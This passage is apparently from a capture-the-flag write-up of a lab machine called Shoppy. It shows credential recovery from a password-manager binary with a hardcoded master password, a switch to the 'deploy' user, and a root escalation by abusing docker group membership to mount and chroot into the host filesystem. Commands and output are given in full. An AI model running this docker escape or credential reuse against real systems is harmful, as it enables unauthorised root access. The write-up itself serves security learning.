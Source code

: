 But when we try to run `password-manager`  as deploy user. it prompts us for master password.
```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager 
[sudo] password for jaeger: 
Welcome to Josh password manager! 
Please enter your master password:
```
Tried to use the same password found earlier of user `jaeger` i.e  `Sh0ppyBest@pp!` but it didnot work. 


## Shell as Deploy

on closely checking at the contents of  `password-manager` found in the home  directory of `deploy` user , we can see that the password as `Sample`.
Password-manager file contains the credential `deploy : Deploying@pp!`

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager 
Welcome to Josh password manager! 
Please enter your master password: Sample 
Access granted! Here is creds ! 
Deploy Creds : 
username: deploy 
password: Deploying@pp!
```
we can use this credentials to switch user as deploy.

```bash
jaeger@shoppy:/home/deploy$ su - deploy 
Password: 
$ whoami 
deploy
```


## Shell as Root

on checking the id  of deploy we can see that deploy is a member of `docker`  group.We probably are in a docker container .
```bash
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

we can escape the `docker` container and esclate our privilege as root  using the following `docker` command.
```bash
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh 
# whoami 
root 
# id 
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo) 
#
```
and we are root.